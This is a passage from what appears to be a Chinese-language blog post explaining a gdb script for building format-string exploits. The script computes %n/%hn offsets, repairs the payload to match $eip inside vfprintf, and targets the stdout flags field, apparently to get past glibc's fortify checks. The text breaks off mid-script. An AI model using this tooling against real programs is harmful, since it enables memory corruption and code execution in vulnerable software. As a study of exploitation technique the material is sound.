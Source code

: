 `get_width arg1 [arg2]`  
第一個參數放目標位址  
第二個參數用來設定 args_type  
回傳值為須設定的寬度，結果存放在 $ret 變數內。

`auto_fit` 指令是用來自動計算出 payload  
auto_fit 裡我直接寫了一個 r 指令，因為在這個版本的 gdb 直接執行 run 會繼承前一次 run 的參數，所以在 auto_fit 之前要自行將須用到的參數 run 一次。  

`fix` 指令是依照對應的 $eip 去修復 payload  

`find_deadbeef` 是用來尋找 args  
也就是 %n 要定位到的地方  
使用之前要把欲寫入的位址改成 0xdeadbeef  

其他的短短的不太重要 就跳過吧  

### 完整的 gdb script

{% highlight php lineos %}
define get_width
if $argc == 2
set $arg_type = (unsigned int)$arg1
end
set $offset = (unsigned int)$arg0 - (unsigned int)$arg_type
set $remain = $offset % 4
if $remain != 0
printf "can't divisible by 4, remain %d\n", $remain
set $ret = $offset / 4 + 1
printf "%x to %x: %d\n", ($ret - 1) * 4 + $arg_type, ($ret - 1) * 4 + 4 + $arg_type, $ret
set $ret = $ret + 1
printf "%x to %x: %d\n", ($ret - 1) * 4 + $arg_type, ($ret - 1) * 4 + 4 + $arg_type, $ret
else
set $ret = $offset / 4 + 1
print $ret
end
end


define auto_fit
printf "%%%dx%%%d$hn %%1$*%d$x ", $val, $adr_offset
printf "%%1$*%d$x %%1073741824$\n", $fmt_arg, $fmt_flag2
printf "%%%d$p %%1$*%d$x %%1$*%d$x %%1073741824$\n", $adr_offset, $fmt_arg, $fmt_flag2
r
fix
end

define fix
if $eip == vfprintf + 11489
set $flag2_adr = (unsigned int)(&_IO_2_1_stdout_ + 15)
get_width $flag2_adr $ecx
set $fmt_flag2 = $ret
get_width $ebp-0x4bc
set $fmt_arg = $ret
set $tmp = *(int)($ebp - 0x4c4) * 0x34 + *(int)($ebp - 0x4f8) + 0x20
get_width $tmp
set $fmt_extra = $ret
end
end

define searchmem
find /32 /3 0xbffd7000,0xc0000000,$arg0
end

define find_deadbeef
searchmem 0xdeadbeef
set $res = (int)$_ - $ecx
set $adr_offset = $res / 12 + 1
p $res % 12